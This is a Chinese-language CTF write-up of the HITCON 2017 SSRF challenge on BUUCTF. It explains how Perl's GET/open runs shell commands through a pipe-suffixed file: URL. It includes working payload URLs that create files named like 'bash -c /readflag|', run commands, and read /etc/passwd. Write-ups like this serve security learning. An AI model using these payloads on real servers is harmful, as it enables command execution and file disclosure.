


知识点：

1. ssrf

2. perl


参考链接：

https://lihuaiqiu.github.io/2019/07/13/BUUCTF-Writeup-%E4%B8%80/

http://chenxiyuan.vip/2019/07/29/BUUCTF-web-writeup-%E4%BA%8C/


代码如下：

```javascript
<?php
  if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $_SERVER['REMOTE_ADDR'] = $_SERVER['HTTP_X_FORWARDED_FOR'];
  }
  $sandbox = "sandbox/" . md5("orange" . $_SERVER["REMOTE_ADDR"]);
  @mkdir($sandbox);
  @chdir($sandbox);

   $data = shell_exec("GET " . escapeshellarg($_GET["url"]));
   $info = pathinfo($_GET["filename"]);
   $dir  = str_replace(".", "", basename($info["dirname"]));
   @mkdir($dir);
   @chdir($dir);
   @file_put_contents(basename($info["basename"]), $data);
   highlight_file(__FILE__);
```

原题为HITCON 2017，这段代码大概意思为，首先通过XFF判断用户ip,建立沙盒，并且通过GET传入url和filename两个参数，通过filename建立新的目录以及文件名，通过url进行shell_exec的GET命令执行，最终把执行的结果放在新生成的目录下的文件名中。

首先来研究一下pathinfo函数以及basename函数的机制



basename() 函数返回路径中的文件名部分,对于如下代码：

```javascript
<?php
$path = "/testweb/home.php";

//显示带有文件扩展名的文件名
echo basename($path);   //home.php

//显示不带有文件扩展名的文件名
echo basename($path,".php");  //home
?>
```


代码对于想要建立的目录都会进行两边basename，对于如下代码做下实验：

```javascript
<?php
    $data = shell_exec("GET " . escapeshellarg($_GET["url"]));
    $info = pathinfo($_GET["filename"]);
    $dir  = str_replace(".", "", basename($info["dirname"]));
    echo $dir;	
    echo $info["dirname"]; //$c
    echo "/n";
    echo basename($info['basename']);
```

如果filename为/a或者a这样的形式，basename($info['basename']);肯定是为a的，此时的目录为当前目录，再次用basename返回路径中的文件名肯定为空。如果为a/xxx/，$c和$dir返回的都是a，解释一下原因：第一次返回的basename为a其实相当于./a，那么第二次再用basename返回的文件名肯定也是a。那么比较透彻的理解了这个函数，下面的也更好做一写了。

escapeshellarg与escapeshellcmd函数

escapeshellarg

1.确保用户只传递一个参数给命令

2.用户不能指定更多的参数一个

3.用户不能执行不同的命令

其实我的理解就是把传入的字符串加单引号，如果我传入的是ls，那么经过函数操作后就变成了'ls'。同时会对传入的单引号进行一些安全处理，例如传入l's，那么经过处理就会变成

'l'\''s'。但是结合了escapeshellcmd就会造成一些危险的问题。函数简单介绍如下：

1.确保用户只执行一个命令

2.用户可以指定不限数量的参数

3.用户不能执行不同的命令

其作用也就是将一些危险符号进行转义，如

|   |   |
| - | - |
| 1 | &amp;，|，；，\\ ` |


下面会有详解。

GET命令漏洞

根本原因还是在于perl的GET函数底层实际上调用的是open处理，而在perl中，open是可以执行系统命令的。

```javascript
root@iZuf6420mwa64xegn82ysrZ:~# cat 1.pl
open(FD,"|id");
print <FD>;
root@iZuf6420mwa64xegn82ysrZ:~# perl 1.pl
uid=0(root) gid=0(root) groups=0(root)
```

从这段命令我们可看出来perl中open的作用。同时open是支持file协议的


```javascript
The library supports GET and HEAD methods for file requests.  The
"If-Modified-Since" header is supported.  All other headers are
ignored.  The I<host> component of the file URL must be empty or set
to "localhost".  Any other I<host> value will be treated as an error.
Directories are always converted to an HTML document.  For normal
files, the "Content-Type" and "Content-Encoding" in the response are
guessed based on the file suffix.
Example:
  $req = HTTP::Request->new(GET => 'file:/etc/passwd');
```

尝试一下file协议读取 GET 'file:/etc/passwd'或者GET '/etc/passwd'，都可以成功读取出文件内容。下面来尝试下执行系统命令。

```javascript
root@iZuf6420mwa64xegn82ysrZ:~# touch 'ls|'
root@iZuf6420mwa64xegn82ysrZ:~# GET 'file:ls|'
```

通过以上命令成功执行。这里需要注意的是必须要有存在的文件名才能成功执行命令，所以在上面建立了一个ls|文件。

那么这道题的思路就是建立命令执行的文件名，再通过file协议去执行就可以了

首先先看一下大概目录

通过Payload url=/&filename=xxx，然后访问沙盒里面的xxx文件


1. 首先获取目录下文件：

```javascript
#先建个文件
http://web7.buuoj.cn/?url=&filename=bash -c 'ls /'|
#执行命令后输出到chenxiyuan
http://web7.buuoj.cn/?url=file:bash -c 'ls /'|&filename=chenxiyuan
#访问
http://web7.buuoj.cn/sandbox/99ca4e36b9277744c847e190081f7fed/chenxiyuan

此处的MD5字符串为自己orang+自己ip加密得到
```





2. 应该是执行/readflag来读取flag了,继续构造payload:

```javascript
#创建文件
http://web7.buuoj.cn/?url=&filename=bash -c /readflag|
#执行命令输出到flag
http://web7.buuoj.cn/?url=file:bash%20-c%20/readflag|&filename=flag
#访问
http://web7.buuoj.cn/sandbox/99ca4e36b9277744c847e190081f7fed/flag
```

